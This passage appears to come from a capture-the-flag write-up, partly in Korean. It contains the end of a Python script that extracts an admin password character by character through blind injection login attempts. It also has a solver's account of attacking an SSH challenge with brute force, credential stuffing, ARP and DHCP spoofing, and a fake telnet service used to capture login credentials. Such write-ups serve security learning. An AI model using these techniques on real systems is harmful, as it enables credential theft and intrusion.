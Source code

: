 ```python
        cmpmax = 0x7f

        while True:

            if login(host, port, 'admin', payload_equal.format(offset, cmpmid)):
                password += chr(cmpmid)
                break

            elif login(host, port, 'admin', payload_upper.format(offset, cmpmid)):
                cmpmin = cmpmid + 1
                cmpmid = (cmpmax + cmpmin) // 2

            elif login(host, port, 'admin', payload_lower.format(offset, cmpmid)):
                cmpmax = cmpmid - 1
                cmpmid = (cmpmax + cmpmin) // 2

            else:
                raise RuntimeError

        print(password)

    return password

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--host", type=str, default="localhost")
    parser.add_argument("--port", type=int, default=31337)
    args = parser.parse_args()
    result = run(args.host, args.port)
    print("password: " + result, end='')
```

and noticed that admin password is keep changing when revert machine.

----

## 7 of Hearts

> Solver is **Dohyun Kim (@d0now)** from **STLCTF**

15122/tcp로 ssh를 이용하여 접근 할 수 있다. 다만 아무런 credential이 없어서 로그인 하기 위해 몇가지 방법을 시도 해 보았다:

1. Dictionary based brute focing attack
2. Rule based brute forcing attach (root, 1 length word to 3 length word.)
3. Credential stuffing (credentials are from other challeges.)
4. Internal network access via other challenge's reverse shell (maybe docker-compose)
5. Packet capture

하지만 이 중 아무런 성과를 얻지 못했고, 다음과 같이 상황이 흘러가게 되었다.

1. **Jaehoon Jang**님이 DHCP client port가 열려 있는것을 확인 했다 (근데 분명 처음 스캐닝 돌릴 때는 열려있지 않았다.)
2. DHCP client를 속여서 공격하거나, 1-day exploit을 시도 하려고 했다.
3. 몇가지 시도 도중, 타겟 서버의 ip를 kali의 ip로 변경시키려는 시도를 했다. 참고로 arp spoofing, dhcp spoofing 등을 수행했다.
4. 패킷 캡쳐를 수행 했다.
5. 그러자 3~5분 간격으로 kali의 23번 포트에 문제 서버에서 접근하는것을 발견했다.
6. kali의 23/tcp에 telnet 서비스를 열어두고 패킷 캡쳐를 수행했다.
7. 로그인 정보를 획득할 수 있었다.
8. 성공적으로 ssh login에 성공했다.
